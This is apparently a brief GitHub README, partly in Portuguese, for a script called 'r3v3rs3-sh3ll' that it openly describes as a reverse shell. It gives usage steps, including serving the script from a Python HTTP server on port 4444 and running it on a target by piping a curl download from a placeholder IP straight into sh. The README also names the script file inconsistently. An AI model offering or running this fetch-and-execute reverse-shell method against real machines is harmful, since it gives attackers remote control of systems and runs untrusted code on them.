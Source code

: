 # r3v3rs3-sh3ll

Reverse shell.



- chmod +x r33rs3-sh3ll.sh.sh
- ./r3v3rs3-sh3ll.sh

pode ser utilizo levantando um servidor python e chamando com curl

- python3 -m http.server 4444

- curl -k http://SEUIP:4444/r3v3rs3-sh3ll.sh | sh

![image](https://github.com/carlosalbertotuma/r3v3rs3-sh3ll/assets/13341724/f3c14b08-f455-4b99-ade3-c73364fbbea1)
